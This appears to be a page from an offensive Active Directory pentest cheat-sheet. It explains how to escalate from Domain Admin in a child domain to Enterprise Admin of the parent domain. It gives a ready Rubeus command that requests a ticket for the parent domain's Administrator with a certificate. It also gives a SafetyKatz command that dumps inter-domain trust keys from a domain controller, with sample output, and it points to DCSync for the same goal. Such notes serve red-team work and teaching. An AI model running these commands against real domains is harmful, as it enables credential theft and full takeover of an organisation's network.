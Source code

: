 # DA to EA

## Request other certificate

When you get DA to a domain via [#pkinit-authentication](../misc/ad-authentication.md#pkinit-authentication "mention"), for instance with [esc1.md](../adcs/exploitation/esc1.md "mention"), you can get Enterprise Admin of a parent domain via:

```powershell
> Rubeus asktgt /user:parentdomain.local\Administrator /dc:dc.parentdomain.local /certificate:<cert> /password:<pass> /nowrap /ptt
```

## Domain trust key

Get the trust key from the child domain to the parent domain with SafetyKatz on a DC:

```powershell
> SafetyKatz.exe "lsadump::evasive-trust /patch"
[In] us.techcorp.local -> techcorp.local
* KEY

[Out] techcorp.local -> us.techcorp.local
* KEY

...
```

It is also possible to retrieve the trust key through [dcsync.md](dcsync.md "mention").
